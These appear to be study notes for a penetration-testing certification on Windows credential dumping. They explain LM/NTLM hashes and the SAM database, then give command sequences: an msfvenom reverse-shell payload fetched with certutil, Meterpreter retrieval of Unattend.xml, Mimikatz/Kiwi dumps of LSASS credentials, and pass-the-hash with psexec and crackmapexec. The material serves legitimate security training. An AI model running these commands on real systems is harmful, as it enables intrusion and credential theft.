


# 19 Windows Credential Dumping

# Windows Password Hashes

- Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
- Hashing is the process of converting a piace of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is know as a hash or hash value.
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
	- LM
	- NTML
- Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

**SAM Database

- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account password store in the SAM database are hashed.
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.

Note: Elevated/Administrative privileges are required in order to access interact with the LSASS process.

**LM (LanMan)

- LM is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
- The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps:
	- The password is broken into two seven-character chunks.
	- All characters are then converted into uppercase
	- Each chunk is then hashed separately with the DES algorithm.
- LM hashing is generally considered to be a weak protocol and can easily be cracked, primarily because the password hash does not include salts, consequently making brute-force and rainbow table attacks effective against LM hashes. 



**NTLM (NTHash)**

- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTML improves upon LM in the following ways:
	-  Does not split the hash in to two chunks.
	- Case sensitive.
	- Allow the use of symbols and unicode characters.



# Searching for Password in Windows Configuration Files

**Windows Configuration Files**

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
- This tool utilized configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately. 

**Unattended Windows Setup**

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	- C:\\Windows\\Panther\\Unattend.xml
	- C:\\Windows\\Panther\\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<MY-IP> LPORT=<MY-PORT> -f exe > payload.exe
python -m SimpleHTTPServer 80
ON THE TARGET: certutil -urlcache -f http://<MY-IP>/payload.exe payload.exe
msf6: exploit(multi/handler)
	set payload windows/x64/meterpreter/reverse_tcp
	set LPORT <MY-PORT>
	set LHOST <MY-IP>
	run
ON THE TARGET: run payload.exe
meterpreter: search -f Unattend.xml
meterpreter: cd C:\\Windows\\Panther\\unattend.xml
meterpreter: download unattend.xml
CREATE FILE WITH PASSWORD: nano password.txt
base64 -d password.txt
msf6: exploit(windows/smb/psexec)
```

# Dumping Hashes with Mimikatz

- Mimikatz is a Windows post-exploitation tool. It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that store hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

Note: Mimikatz will require elevated privileges in order to run correctly.

```shell
msf6: exploit(windows/http/badblue_passthru)
meterpreter: pgrep lsass
meterpreter: migrate <PID>
meterpreter: load kiwi
meterpreter: creds_all
meterpreter: lsa_dump_sam
meterpreter: lsa_dump_secrets

meterpreter: mkdir C:\Temp
meterpreter: upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter: shell
C:\Temp>.\mimikatz.exe
mimikatz: privilege::debug
mimikatz: lsadump::sam
mimikatz: lsadump::secrets
mimikatz: sekurlsa::logonpasswords
```

# Pass-The-Hash Attacks

- Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
- We can use multiple tools to facilitate a Pass-The-Hash attack:
	- Metasploit PsExec module
	- Crackmapexec
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation. 

**Demo**

```shell
msf6: exploit(windows/http/badblue_passthru)
meterpreter: pgrep lsass
meterpreter: migrate <PID>
meterpreter: load kiwi
meterpreter: lsa_dump_sam
CREATE FILE WITH: username: hashedpassword
CTRL + Z (meterpreter in background)
msf6: exploit(windows/smb/psexec)
msf6: sessions
msf6: exploit(windows/smb/psexec)
	set LPORT <MY-PORT> (different from port already in session)
	set SMBUser Administrator
	set SMBPass LM:NTML (hashed password)
	set target Native\ upload

crackmapexec smb <TARGET-IP> -u <USERNAME> -p "NTML-PASSWORD" -x "<COMMAND>"
```

#eJPT #cybersecurity 